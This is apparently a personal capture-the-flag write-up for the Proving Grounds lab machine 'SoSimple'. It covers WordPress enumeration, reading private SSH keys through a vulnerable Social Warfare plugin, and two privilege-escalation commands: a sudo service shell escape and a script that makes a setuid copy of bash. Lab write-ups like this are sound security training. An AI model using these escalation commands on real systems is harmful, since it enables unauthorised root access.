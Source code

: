 # Enumeration 



80/ Apache/2.4.41
http://192.168.168.78/wordpress/
![[Pasted image 20230104213144.png]]








# Exploitation 


[social warfare exploit](https://wpscan.com/vulnerability/7b412469-cc03-4899-b397-38580ced5618)

![[Pasted image 20230104213542.png]]

Users:
root
steven
max

wp-config.php

![[Pasted image 20230104213845.png]]
trying to grap id_rsa from the users we found earlier using this exploit
and max worked
![[Pasted image 20230104214010.png]]

![[Pasted image 20230104213954.png]]






![[Pasted image 20230104214113.png]]
we are in












# Foothold - Privesc



![[Pasted image 20230104215629.png]]
![[Pasted image 20230104215700.png]]
[gtfobins](https://gtfobins.github.io/gtfobins/service/)

```
sudo -u steven service ../../bin/sh

```



![[Pasted image 20230104215800.png]]

there is no file /opt/tools/ so we create the file
```

mkdir /opt/tools
cd /opt/tools
echo "cp /bin/bash /tmp && chmod +s /tmp/bash" >> server-health.sh

```

![[Pasted image 20230104220016.png]]



![[Pasted image 20230104220528.png]]


 
# Conclusion

- website was using outdated plugin which lead to sensitive data exposure 
- user max and steven had sudo privs with no password needed which lead to privesc


---
Tags: #wordpress #proving_grounds #ctf #sudo_privesc #SoSimple
Resources:
[Proving Grounds](https://portal.offensive-security.com/labs/play) 